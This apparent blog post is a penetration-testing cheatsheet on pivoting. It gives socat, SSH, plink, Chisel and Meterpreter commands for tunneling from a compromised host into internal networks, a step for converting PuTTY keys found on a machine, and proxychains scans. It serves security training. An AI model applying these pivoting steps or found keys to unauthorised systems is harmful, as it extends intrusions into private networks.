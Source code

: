 ```yaml
---
layout: post
title: "Cheatsheets: Pivot 101"
date: 2022-07-30 23:32 +0100
tags: pentesting windows linux kali cheatsheet
categories: [Cheatsheets]
published: true
---
```


Sometimes we just can't get access to the thing that we need to exploit.

When that happens we need to know the different ways in which we can get around this little hurdle, as there is always a way.

[The question on StackExchange that spawned this post](https://unix.stackexchange.com/questions/293304/using-netcat-for-port-forwarding)

## SOCAT

```bash
socat tcp-listen:8001,reuseaddr,fork tcp:localhost:8000
```

## Python

Not something you want to code yourself with any kind of time contraints, but it's totally possible.

Best choice is to use an existing library like [sshtunnel](https://pypi.org/project/sshtunnel/) which you can use to do things like the following (which forwards a Vagrant server to the local MySQL port):

```python
from sshtunnel import open_tunnel
from time import sleep

with open_tunnel(
    ('localhost', 2222),
    ssh_username="vagrant",
    ssh_password="vagrant",
    remote_bind_address=('127.0.0.1', 3306)
) as server:

    print(server.local_bind_port)
    while True:
        # press Ctrl-C for stopping
        sleep(1)

print('FINISH!')
```

## Putty

Basically SSH for Windows. Usually the most interaction we'll have with this is when we find one of it's keys (.ppk) laying around on a machine.

With that being said...

Convert Putty key to SSH key:

```bash
puttygen id_dsa.ppk -O private-openssh -o id_dsa

puttygen id_dsa.ppk -O public-openssh -o id_dsa.pub
```

Sometimes Putty also has passwords left in the registry:

## Plink

For this to work we need to make sure SSH is turned on. 

```bash
service ssh restart
```

The on the target machine we can do the following:

```bash
.\plink.exe root@kali_ip -R KALI_PORT:IP_OF_TARGET_MACHINE:TARGET_PORT
```

(Could come in handy if we have SMB creds for an admin but we can't access SMB remotely)

## Metasploit

In a `meterpreter` session:

```bash
portfwd add -l LOCAL_PORT -p DESTINATION_PORT -r TARGET_IP
```

```bash
run autoroute -s 10.1.1.0/24
run autoroute -s 10.2.2.0/24
```

```bash
use auxiliary/server/socks4a
set SRVHOST 127.0.0.1
exploit -j

```

Now on our host machine we can scan the IT network:

```bash
vim /etc/proxychains.conf 
...
socks4 127.0.0.1 1080
```

```bash
proxychains nmap -sT -v -Pn 10.2.2.224
```

## Chisel

Chisel is an awesome tool that is more than capable of turning what feels like a lost cause into a system own.

[Github Link for Chisel](https://github.com/jpillora/chisel)

On the host:

```bash
chisel(.exe) client 10.10.14.3:1338 R:1234:127.0.0.1:1234
```

That will setup a connection to 1337, which will then forward port 1234 to localhost:

```bash
chisel(.exe) server -p 1337 -reverse -v
```

## SSH

Local Foward:

```bash
ssh -L 80:127.0.0.1:80 someserver@someip
```

### Remote Forward

```bash
ssh -R 8080:localhost:80 someserver@someip
```

### Dynamic tunneling

```bash
ssh -D 9000 sean@10.11.1.251
```

```bash
vim /etc/proxychains.conf 

socks4 127.0.0.1 1080
```

```bash
proxychains nmap -sT -v -Pn 10.2.2.224
```

This creates a dynamic tunnel over port 9000 using SOCKS(4a)
